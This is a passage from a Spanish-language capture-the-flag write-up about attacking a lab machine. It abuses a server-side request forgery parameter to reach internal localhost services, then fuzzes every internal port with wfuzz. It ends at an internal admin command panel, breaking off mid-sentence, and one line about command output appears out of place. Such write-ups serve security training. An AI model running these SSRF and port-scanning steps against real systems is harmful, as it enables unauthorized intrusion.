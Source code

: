 1. Creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos conectar por la web 

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8/test
    ```

Aqui no pasa nada. La idea aqui, como solo tiene un puerto abierto seria de explorar si tiene puerto privados usando localhost

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost
```

Aqui ya vemos que el puerto 80 interno de la maquina esta abierto. Decidimos descubrir los puertos abiertos de la maquina con WFUZZ


### Descubrimiento de los puertos abiertos con WFUZZ {-}

Wfuzz permite hacer rangos de numeros con el parametro 
```bash
 -z 
```


```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

```bash
wfuzz -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Aqui vemos que solo el puerto 80 esta abierto.



Esto funciona. Pero no vemos en la web el output del comando. Solo vemos el codigo de estado (0 si el comando a funcionado, 1 si no a funcionado)

## Evaluacion de vulnerabilidades {-}

### Analizamos la web interna por el puerto privado 80 {-}

Aqui se puede ver un panel de administrador donde parece que podamos ejecutar comandos a nivel de sistema. Si pinchamos el link
no nos va a dejar porque nos lleva a una url interna 
```bash
 127.0.0.1/cmd.aspx 
```
. Pero si la introducimos directamente en 
